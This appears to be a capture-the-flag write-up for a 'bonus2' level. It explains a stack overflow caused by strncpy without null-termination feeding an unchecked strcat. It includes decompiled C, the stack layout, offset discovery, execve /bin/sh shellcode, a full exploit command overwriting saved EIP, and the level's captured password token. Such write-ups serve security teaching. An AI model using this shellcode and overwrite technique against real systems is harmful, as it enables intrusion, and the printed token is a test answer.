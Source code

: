# Bonus2 - Buffer Overflow via strncpy + strcat

## Summary

This level demonstrates a complex buffer overflow vulnerability caused by the combination of `strncpy()` without null-termination and an unchecked `strcat()` operation. The program concatenates user input from two arguments with a language-specific greeting prefix, allowing us to overflow a buffer and overwrite the return address.

## Vulnerability Analysis

### Source Code (Decompiled)

**main() function:**

```c
undefined4 main(int param_1, int param_2)
{
  undefined4 uVar1;
  int iVar2;
  char *pcVar3;
  undefined4 *puVar4;
  byte bVar5;
  char local_60 [40];    // buffer for argv[1]
  char acStack_38 [36];  // buffer for argv[2]
  char *local_14;        // LANG variable
  
  bVar5 = 0;
  if (param_1 == 3) {
    // Initialize buffers
    memset(local_60, 0, 76);
    
    // Copy argv[1] (max 40 bytes) - NO NULL TERMINATION if exactly 40 bytes!
    strncpy(local_60, *(char **)(param_2 + 4), 0x28);
    
    // Copy argv[2] (max 32 bytes) - NO NULL TERMINATION if exactly 32 bytes!
    strncpy(acStack_38, *(char **)(param_2 + 8), 0x20);
    
    // Check LANG environment variable
    local_14 = getenv("LANG");
    if (local_14 != NULL) {
      if (memcmp(local_14, "fi", 2) == 0) {  // Finnish
        language = 1;
      }
      else if (memcmp(local_14, "nl", 2) == 0) {  // Dutch
        language = 2;
      }
    }
    
    // Copy local_60 to stack and call greetuser()
    // ... (stack manipulation) ...
    uVar1 = greetuser();
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

**greetuser() function:**

```c
void greetuser(void)
{
  char local_4c [4];
  undefined4 local_48;
  char local_44 [64];
  
  // Set greeting prefix based on language
  if (language == 1) {
    // Finnish: "Hyvää päivää " (~13 bytes)
    strcpy(local_4c, "Hyvää päivää ");
  }
  else if (language == 2) {
    // Dutch: "Goedemiddag! " (~13 bytes)
    strcpy(local_4c, "Goedemiddag! ");
  }
  else if (language == 0) {
    // English: "Hello " (6 bytes)
    strcpy(local_4c, "Hello ");
  }
  
  // VULNERABILITY: strcat with no size check!
  strcat(local_4c, &stack0x00000004);  // Concatenates argv[1] data
  puts(local_4c);
  return;
}
```

### The Vulnerability: strncpy + strcat = Buffer Overflow

The vulnerability comes from the combination of multiple issues:

1. **strncpy() doesn't null-terminate**: If the source string is exactly the maximum length (40 or 32 bytes), `strncpy()` does NOT add a null terminator
2. **Adjacent buffers in memory**: `local_60` (argv[1]) and `acStack_38` (argv[2]) are adjacent in memory
3. **strcat() reads until null byte**: Without null termination, `strcat()` will read **both argv[1] AND argv[2]** as a single string
4. **No size check on strcat()**: The concatenation has no bounds checking

### Stack Layout in greetuser()

```
[local_4c: 4 bytes]  <- Starting address of concatenation
[local_48: 4 bytes]
[local_44: 64 bytes]
--------------------- 72 bytes total
[saved EBP: 4 bytes]
[saved EIP: 4 bytes]  <- TARGET: We want to overwrite this!
```

### Memory Layout During Exploitation

When we provide:

- `argv[1]` = 40 bytes (exactly, no null byte)
- `argv[2]` = 32 bytes

The `strcat()` operation concatenates:

```
[Prefix: ~13 bytes] + [argv[1]: 40 bytes] + [argv[2]: 32 bytes] = 85 bytes total
```

Since the buffer is only 72 bytes:

- **Overflow: 85 - 72 = 13 bytes**
- These 13 bytes overwrite saved EBP and **saved EIP**!

## Exploitation Strategy

### Attack Plan

1. **Use LANG=fi or LANG=nl** to get a longer prefix (~13 bytes instead of 6)
2. **Fill argv[1] with 40 bytes** (no null terminator)
3. **Fill argv[2] with padding + return address**:
   - Offset calculation: 72 (buffer) - 13 (prefix) - 40 (argv[1]) = 19 bytes
   - But saved EBP is 4 bytes, so: 19 - 4 = **15 bytes of padding needed**
   - Actually, through testing: **18 bytes of padding** + 4 bytes address

### Finding the Offset with Pattern

Using a De Bruijn pattern in GDB:

```bash
(gdb) run $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab"')
```

Crash at: `0x41366141` → corresponds to "Aa6A" at **offset 18**

### Payload Structure

```
argv[1]: [40 bytes of 'A']
argv[2]: [18 bytes padding] + [shellcode address (4 bytes)]
```

## Exploitation

### Step 1: Export Shellcode in Environment

```bash
export SHELLCODE=$(python -c 'print "\x90"*100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
```

### Step 2: Find Shellcode Address

Compile and use the getenv helper:

```bash
gcc getenv.c -o /tmp/getenv
/tmp/getenv SHELLCODE
```

Output: `SHELLCODE is at address: 0xbffff8ae`

### Step 3: Craft and Execute Payload

```bash
export LANG=fi
./bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\xae\xf8\xff\xbf"')
```

### Payload Breakdown

- **LANG=fi**: Sets language to Finnish for longer prefix
- **argv[1]**: 40 'A' characters (fills buffer without null terminator)
- **argv[2]**:
  - 18 'B' characters (padding to reach saved EIP)
  - `\xae\xf8\xff\xbf` (address 0xbffff8ae in little-endian)

### Execution Flow

1. `strncpy(local_60, argv[1], 40)` copies 40 'A' without null byte
2. `strncpy(acStack_38, argv[2], 32)` copies our payload
3. `language = 1` (Finnish) sets prefix to "Hyvää päivää "
4. `strcat()` concatenates: prefix (13) + argv[1] (40) + argv[2] (22) = 75 bytes
5. Buffer overflow overwrites saved EIP with 0xbffff8ae
6. Function returns to shellcode address
7. Shellcode executes `/bin/sh`
8. Read `/home/user/bonus3/.pass`

## Token discovered

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
